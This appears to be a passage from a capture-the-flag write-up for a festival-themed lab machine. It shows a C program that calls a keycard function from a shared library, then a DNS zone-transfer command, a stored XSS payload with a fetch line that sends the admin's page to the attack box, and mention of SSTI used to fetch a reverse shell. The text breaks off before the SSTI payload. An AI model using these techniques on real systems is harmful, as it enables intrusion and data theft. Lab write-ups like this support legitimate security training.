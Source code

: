 ```c
#include <stdio.h>
#include <dlfcn.h>
#include <stdint.h>

typedef uint64_t (*createKeycard_t)(char *);

int main()
{
    const char *library_path = "./libaocgame.so";

    void *handle = dlopen(library_path, RTLD_LAZY);
    if (!handle)
    {
        fprintf(stderr, "Error loading library: %s\n", dlerror());
        return 1;
    }

    dlerror();

    createKeycard_t createKeycard = (createKeycard_t)dlsym(handle, "_Z14create_keycardPKc");
    const char *error = dlerror();
    if (error != NULL)
    {
        fprintf(stderr, "Error loading function: %s\n", error);
        dlclose(handle);
        return 1;
    }

    char input[] = "one_two_three_four_five";
    uint64_t result = createKeycard(input);
    printf("create_keycard returned: 0x%lx (%lu)\n", result, result);
    dlclose(handle);

    return 0;
}
```

### Sidequest


After unlocking the server ports 80, 3000 and 53 are open (as well as 22). If you go to 80 or 3000 with a browser it redirects to '<http://thehub.bestfestivalcompany.thm/>', which is just a holding page. To find other possible domains, you can attempt a domain transfer against the open DNS port: `dig axfr @10.10.230.28 bestfestivalcompany.thm`. This will reveal `adm-int`, `npm-registry`, `thehub-int` and `thehub-uat` subdomains; thehub-uat is available on port 3000, while npm-registry can be accessed on port 80 where you will see it is running [Verdaccio](https://verdaccio.org/).

#### foothold via ssti

To get a foothold, you can exploit stored XSS and SSTI on the uat site: there is a contact form where you can submit a message that gets viewed once a minute. By using a payload like: `<script src="attackbox/script.js"></script>` and then hosting a script js on your attack box, you can use the XSS to enumerate the machine. E.g. putting something like `fetch('attackbox?x=' + btoa(document.body.outerHTML))` or similar you can exfiltrate the page content the admin is looking at. Cookies can't be extracted, but with a little enumeration you can find a wiki path that is vulnerable to SSTI. This is actually telegraphed in the npm-registry: if you carefully go through the packages hosted, you will find one [created by McSkidy](http://npm-registry.bestfestivalcompany.thm/-/web/detail/markdown-converter) that can be downloaded and examined, showing the SSTI vulnerability. A payload like the following will give remote code execution (here used to download a revshell payload from my attack box and run it):
